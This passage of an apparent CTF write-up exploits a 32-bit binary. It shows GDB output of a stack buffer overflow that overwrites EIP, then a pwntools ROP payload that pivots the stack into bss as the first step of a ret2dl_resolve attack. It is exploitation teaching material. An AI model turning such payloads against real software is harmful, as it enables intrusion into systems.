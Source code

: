 Running in GDB we can confirm that indeed we do have buffer overflow
```bash
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x1
$ebx   : 0x41414141 ("AAAA"?)
$ecx   : 0x41
$edx   : 0x08048f1e  →  "It is the rabbit!"
$esp   : 0xff94dda0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$ebp   : 0x41414141 ("AAAA"?)
$esi   : 0xff94dfe4  →  0xff94ffb4  →  "./tmp/binary1"
$edi   : 0xf7f35b80  →  0x00000000
$eip   : 0x41414141 ("AAAA"?)
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xff94dda0│+0x0000: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"    ← $esp
0xff94dda4│+0x0004: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xff94dda8│+0x0008: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xff94ddac│+0x000c: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xff94ddb0│+0x0010: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xff94ddb4│+0x0014: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xff94ddb8│+0x0018: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xff94ddbc│+0x001c: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x41414141
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "binary1", stopped 0x41414141 in ?? (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x $esp
0xff94dda0:     0x41414141
gef➤  x $eip
0x41414141:     Cannot access memory at address 0x41414141
```

Here was when the fun stuff started to happen. For the longest time I assumed it was just a simple ROP challenge but the gadgets in the binary were really bad. There were a couple of gadgets that could be used to stack pivot but nothing to pop registers for a syscall and the GOT had no functions to leak. At this point, I realized that the so-called holy grail of ROP must be dl_resolve. We can call read@plt and the lack of PIE allows us to read into bss or data section. First I did a stack pivot to read more data and setup for the dl_resolve.

```python 
fake_stack = exe.bss() + 0xa00
fake_link_map_addr = exe.bss() + 0xa00 + 0x100 +8

payload = flat([ 
    b"A"*(bof_size),
    # read into fake stack
    exe.plt.read,
    # pops read jump values and new ebp
    stack_gad,
    0, fake_stack, 0x400,
    fake_stack,
    # Next RIP,pivot now
    leave_ret,
    ])
```
